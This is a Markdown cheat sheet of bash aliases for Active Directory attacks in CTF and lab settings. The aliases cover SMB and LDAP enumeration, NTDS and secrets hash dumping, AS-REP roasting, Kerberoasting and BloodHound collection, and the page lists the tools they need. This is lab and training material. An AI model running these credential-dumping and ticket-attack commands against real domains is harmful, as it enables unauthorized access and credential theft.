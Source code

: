 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#cheatsheet"
  - "#active-directory"
  - "#ctf"
  - "#windows-enumeration"
  - "#security"
  - "#network-security"
  - "#programming"
  - "#python-scripting"
  - "#opensource"
  - "#red-team"
  - "#penetration-testing"
description:
author:
created: Sunday, June 29th 2025, 12:44:04 am
source:
title: Page 2 - AD
date modified: Sunday, June 29th 2025, 12:44:14 am
---
```


# Page 2 - AD

**Active Directory (AD)-related aliases** for CTF players doing **Windows domain enumeration**, **Kerberos abuse**, **SMB attacks**, and **privilege escalation**. These are particularly useful for **internal AD labs**, **HTB Active Directory boxes**, and **Red Team simulations**.

---

## 🏢 Active Directory Enumeration & Attacks

```bash
# 🔎 SMB & NetBIOS
alias smbshare='smbclient -L \\\\TARGET\\ -N'
alias smbconnect='smbclient \\\\TARGET\\SHARE'
alias smbuser='smbclient -L \\\\TARGET\\ -U'
alias enum4='enum4linux-ng -a'
alias enumuser='enum4linux -u USERNAME -p PASSWORD -a TARGET'
alias crackmap='crackmapexec smb'
alias smbmap='smbmap -H'
alias nbtscan='nbtscan -r TARGET_SUBNET'

# 🧠 LDAP & Kerberos
alias kerbrute='python3 ~/tools/kerbrute/kerbrute.py'
alias ldapenum='ldapsearch -x -H ldap://TARGET -s base'
alias adenum='python3 ~/tools/ADEnum/ADEnum.py'
alias bloodhound='bloodhound-python -u USER -p PASSWORD -dc-ip DC_IP -c all'

# 🗂️ Password & Hash Dumping
alias secretsdump='secretsdump.py DOMAIN/USER:PASSWORD@TARGET'
alias dumpntds='secretsdump.py -just-dc DOMAIN/USER:PASSWORD@DC_IP'
alias hashgrab='impacket-secretsdump'
alias ridbrute='rpcclient -U "" TARGET -N -c "enumdomusers"'

# 📜 Kerberos Ticket Attacks
alias asreproast='GetNPUsers.py DOMAIN/ -usersfile users.txt -no-pass -dc-ip TARGET'
alias kerberoast='GetUserSPNs.py DOMAIN/USER:PASSWORD -dc-ip TARGET -request'
alias tgt='klist'
alias renewtgt='kinit USERNAME@DOMAIN'
ptt() {
  export KRB5CCNAME="FILE:/tmp/krb5cc_$(uuidgen || date +%s)"
  export KRB5_CONFIG="${HOME}/krb5.conf"
  echo "[+] KRB5CCNAME set to: ${KRB5CCNAME}"
}

# 🛠️ Tools & Shortcuts
alias cme='crackmapexec'
impacket() {
  cd ~/tools/impacket && source venv/bin/activate
}
alias blood='cd ~/tools/BloodHound && neo4j console'
alias neo4jstart='sudo systemctl start neo4j'
alias neo4jstop='sudo systemctl stop neo4j'

# 🪓 Attack Chains
alias kerbcheck='nmap --script "krb5-enum-users" -p 88 TARGET'
alias noauthrpc='rpcclient -U "" -N TARGET'
alias authrpc='rpcclient -U USER%PASSWORD TARGET'

# 📚 Active Directory Cheatsheets
alias adhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/active-directory-methodology'
alias privhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation'
```

---

## ✅ Additional Tools Recommended

Make sure you have the following tools installed (some aliases reference them):

- [Impacket](https://github.com/SecureAuthCorp/impacket)
    
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
    
- [Kerbrute](https://github.com/ropnop/kerbrute)
    
- [BloodHound + Neo4j](https://github.com/BloodHoundAD/BloodHound)
    
- [Enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
    
- [ldapsearch (OpenLDAP)](https://linux.die.net/man/1/ldapsearch)
    
- [rpcclient (Samba)](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)

---

## 📥 Install and Activate

To include these in your setup:

### 1. Add to `~/.ctf_aliases` or `.bashrc`/`.zshrc`

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Then Source It:

```bash
source ~/.ctf_aliases
```

---

## 🧠 Learn More

- [HackTricks: Active Directory](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    
- [PayloadsAllTheThings – Windows & AD](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Active%20Directory%20Attack%20Cheatsheet)
    
- [Red Team Notes by RastaMouse](https://rastamouse.me/)
